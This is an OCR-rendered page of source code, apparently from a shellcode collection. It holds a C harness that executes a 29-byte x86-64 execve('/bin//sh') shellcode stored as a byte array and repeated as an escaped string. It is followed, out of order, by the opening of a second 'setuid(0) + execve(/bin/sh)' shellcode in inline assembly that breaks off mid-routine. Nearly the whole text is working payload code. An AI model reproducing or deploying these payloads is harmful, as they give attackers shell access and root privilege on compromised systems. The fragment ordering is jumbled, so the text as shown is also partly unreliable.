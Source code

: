       29.   30. #include <stdio.h>
    
      31. #include <stdlib.h>
    
      32. #include <stdint.h>
    
      33.   34. const uint8_t sc[29] = {
    
      35.     0x6a, 0x42, 0x58, 0xfe, 0xc4, 0x48, 0x99, 0x52, 0x48, 0xbf,
    
      36.     0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x57, 0x54,
    
      37.     0x5e, 0x49, 0x89, 0xd0, 0x49, 0x89, 0xd2, 0x0f, 0x05
    
      38. };
    
      39.   40. /** str
    
      41. \x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf
    
      42. \x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54
    
      43. \x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05
    
      44. **/
    
      45.   46. int main (void)
    
      47. {
    
      48.   ((void (*) (void)) sc) ();
    
      49.   return EXIT_SUCCESS;
    
      50. }
    
    
    
    
          1. /*
    
      2. setuid(0) + execve(/bin/sh) - just 4 fun.
    
      3. xi4oyu [at] 80sec.com
    
      4.   5. main(){
    
      6. __asm(  "xorq %rdi,%rdi\n\t"
    
      7.         "mov $0x69,%al\n\t"
    
      8.         "syscall \n\t"
    
      9.         "xorq   %rdx, %rdx \n\t"
    
      10.         "movq   $0x68732f6e69622fff,%rbx; \n\t"
    
      11.         "shr    $0x8, %rbx; \n\t"
    
      12.         "push   %rbx; \n\t"
    
      13.         "movq   %rsp,%rdi; \n\t"
    
      14.         "xorq   %rax,%rax; \n\t"
    
      15.         "pushq  %rax; \n\t"
    